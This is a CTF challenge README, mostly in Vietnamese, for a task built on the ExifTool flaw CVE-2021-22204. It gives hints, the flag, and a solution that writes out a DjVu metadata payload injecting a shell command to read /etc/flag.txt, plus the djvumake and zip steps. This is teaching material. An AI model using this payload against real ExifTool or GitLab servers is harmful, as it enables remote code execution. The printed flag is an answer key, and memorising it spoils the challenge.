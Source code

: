 # ctf-challenges

![Zip](banner.PNG)

## Challenge:  Zip! achievement
## Description

Give me a zip file, I will tell you all about it, including the flag in /etc/flag.txt/

## Hint 

1. Do you know CVE-2021-22204
2. I think blog of vakzz bug hunter is very interesting

## Flag 

```sh
HCMUS-CTF{CVE_22204_1s_v3ry_1nt3r3st1ng}
```

## Ý tưởng

Challenge được lấy ý tưởng từ cve-2021-22204 ( cve này được sử dụng đểtạo payload dạng jpeg dùng cho việc exploit Gitlab). Đây là một trong những CVE khá nổi tiêng gần đây. Vì mã khai thác dưới dạng format hình ảnh (jpeg) đã có sẵn, nên đề ra sẽ customize lại, yêu cầu mã khai thác phải ở định dạng ZIP mới có thể lấy được flag.

## Giải thích

### Description: Give me a zip file, I will tell you all about it, including the flag in /etc/flag.txt/

Giúp các bạn sinh viên biêt được file flag nằm ở /etc/flag.txt nhằm phục vụ cho mục đích viết payload.

### Hint 1. Do you know CVE-2021-22204

Biêt được đây là CVE-2021-22004 và người cho chơi thể tìm kiếm các blog để tạo được mã khai thác dưới định dạng dễ nhât là *Djvu* 

### Hint 2: I think blog of vakzz bug hunter is very interesting
 
 Giúp các bạn sinh viên có thể tìm ra được blog của author (https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html).
 Ở blog giúp các bạn sinh viên hiểu rõ về bug và các tạo mã khai thác dưới định dạng jpeg. Các bạn cần nắm vững kiên thức ở quy trình tạo payload jpeg, từ đó chỉ cần một số bước nhỏ có thể tạo payload ở dạng ZIP ( cuối blog tác giả cũng đã giải thích cho các tạo payload ở định dạng zip nhưng không có mì ăn liền, vì vậy có làm mới có ăn.)
 
## Cách giải

1. Tạo payload Djvu bắng Djvumake ( payload có sẵn trong blog nhưng các tạo thì các bạn sinh viên cũng phải tự research)

Tạo file payload.txt với nội dụng:
```
(metadata
    (Author "\
" . cat '/etc/flag.txt'; #")
)
```

Sử dụng Djvumake để tạo payload dạng Djvu
```
djvumake exploit.djvu INFO=0,0 BGjp=/dev/null ANTa=payload.txt
```

2. Tạo payload dạng .zip bằng các đổi tên `exploit.djvu` thành `meta.json` và nén lại.


## Install

Clone project...

```sh
git clone https://github.com/hongson97/ctf-challenges.git
```

Replace IP api trong templates/upload.html thành IP của server deploy

Chạy docker-compose...

```sh
cd ctf-challenges
docker-compose up
```

